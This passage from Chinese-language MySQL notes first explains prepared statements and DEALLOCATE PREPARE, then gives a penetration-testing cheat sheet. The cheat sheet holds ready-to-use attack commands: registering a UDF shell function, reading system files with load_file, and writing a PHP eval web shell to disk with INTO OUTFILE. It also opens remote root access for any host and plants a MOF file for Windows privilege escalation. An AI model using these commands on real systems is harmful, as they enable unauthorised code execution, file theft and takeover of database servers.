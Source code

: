 ```mysql
mysql> DEALLOCATE PREPARE stmt3;
Query OK, 0 rows affected (0.00 sec)
```



#### 预处理 SQL 使用注意点

* `stmt_name` 作为` preparable_stmt `的接收者，唯一标识，不区分大小写。
* `preparable_stmt` 语句中的 `? `是个占位符，所代表的是一个字符串，不需要将 `?` 用引号包含起来。
* 定义一个已存在的 `stmt_name` ，原有的将被立即释放，类似于变量的重新赋值。
* `PREPARE stmt_name` 的作用域是`session`级
* 预处理编译 SQL 是占用资源的，所以在使用后注意及时使用 DEALLOCATE PREPARE 释放资源，这是一个好习惯。

# 渗透常用

```
查路径：select @@basedir as basePath from dual

查用户：select * from mysql.user

注册函数：CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll'

查版本：select version();

导出：select load_file(0x633A5C5C626F6F742E696E69) FROM user into outfile 'D://a.txt'

写文件：select '<?php eval($_POST[cmd]);?>' into outfile 'F://a.php';

开外连：GRANT ALL PRIVILEGES ON . TO 'root'@'%' IDENTIFIED BY 'password' WITH GRANT OPTION;

读文件：select load_file('c:boot.ini')

移动文件：select load_file('C:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'
```

